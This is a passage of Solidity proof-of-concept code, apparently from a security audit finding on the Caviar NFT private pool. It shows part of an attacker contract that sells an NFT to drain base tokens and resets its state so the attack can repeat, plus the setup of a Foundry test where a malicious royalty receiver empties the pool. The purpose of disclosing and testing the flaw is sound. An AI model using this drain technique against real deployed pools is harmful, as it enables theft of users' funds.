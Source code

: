 ```solidity
        // Approve the bought NFT to the Caviar private pool.
        nft.approve(address(vulnerablePrivatePool), tokenId);

        // Sell the bought NFT in order to extract base tokens from the vulnerable private pool.
        vulnerablePrivatePool.sell(
            new uint256[](1),
            new uint256[](0),
            PrivatePool.MerkleMultiProof(new bytes32[](0), new bool[](0)),
            new IStolenNftOracle.Message[](0)
        );

        // Reset state variables so attack can be performed one more iteration.
        delete originalFee;
        delete f1;
        delete f2;
    }
}

contract MaliciousRoyaltyReceiverDrainPrivatePoolTest is Fixture {
    /// @notice The NFT collection contract that is used by the private pool.
    ERC721RoyaltyCollection public nft;

    /// @notice The Caviar private pool that incorrectly calculates royalties.
    PrivatePool public privatePool;

    /// @notice Merkle root is set to bytes32(0) to make setup simpler.
    bytes32 constant MERKLE_ROOT = bytes32(0);

    /// @notice The private pool has initial balance/reserve of 100 ETH (the base token is address(0)).
    uint128 constant VIRTUAL_BASE_TOKEN_RESERVES = 100e18;

    /// @notice The private pool has 5 NFTs, each one with a wight of 1e18 (the merkle root is bytes32(0)).
    uint128 constant VIRTUAL_NFT_RESERVES = 5e18;

    /// @notice The specific NFT that will be used to perform the epxloit.
    /// @notice The attacker should be the royalty receiver of this NFT.
    /// @dev Zero is used so we can pass `new uint256[](1)` as the tokenIds array.
    uint256 tokenId = 0;

    // The attacker. It is set as a royalty receiver to NFT#tokenId that will be used to perform the exploit.
    address receiver;

    function setUp() external {
        // The attacker.
        receiver = vm.addr(1);

        // The NFT collection the will be used by the private pool.
        nft = new ERC721RoyaltyCollection("VoyvodaSec", "VSC");

        _deployPrivatePool();
        _depositNFTs(tokenId);

        _fundEth();

        // Assert setup.
        assertEq(
            privatePool.nft(),
            address(nft),
            "Setup: NFT collection not set correctly."
        );
```